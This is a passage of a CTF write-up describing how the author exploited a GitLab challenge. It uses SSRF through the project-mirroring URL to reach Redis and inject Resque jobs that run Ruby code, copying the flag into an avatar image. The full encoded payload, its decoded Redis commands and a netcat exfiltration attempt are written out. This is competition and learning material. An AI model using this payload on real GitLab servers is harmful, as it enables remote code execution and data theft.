 > Hey, could you enable IPv6 if possible?

...just as a joke. Organizer said,

> OK.

I WAS IMPRESSED. only one hour remaining, still enough to get flag.

Now everything is ready to exploit. I tried to execue `cat /flag | nc [my local ip]` but it didn't work.
Then I tried to copy `/flag` to public file (I've selected my avatar) and it worked.
I totally forgot that `nc` command is not installed by default :P


Final payload for project mirroring is here:
```
git%3A//%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379/ho%0A%0Amulti%0A%0Asadd%20resque%3Agitlab%3Aqueues%20system_hook_push%0A%0Alpush%20resque%3Agitlab%3Aqueue%3Asystem_hook_push%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22File.binwrite%28%5C%27/var/opt/gitlab/gitlab-rails/uploads/-/system/user/avatar/37/avatar.png%5C%27%2C%20File.binread%28%5C%27/flag%5C%27%29%29%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0A%0Aexec%0A%0Aa
```

it is sending following data to redis
```
multi

sadd resque:gitlab:queues system_hook_push

lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"File.binwrite(\'/var/opt/gitlab/gitlab-rails/uploads/-/system/user/avatar/37/avatar.png\', File.binread(\'/flag\'))\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

exec

a
```

last character `a` is to ensure that there is `\n` after `exec`. Last line `exec` will not be executed without additional line.

Then I got flag data as my avatar at `/uploads/-/system/user/avatar/37/avatar.png`.


Thanks for reading. Tomorrow post for [CTF Advent Calendar 2018](https://adventar.org/calendars/3210) will be about explanation for authored challenges in CBCTF Quals by @mage_1868.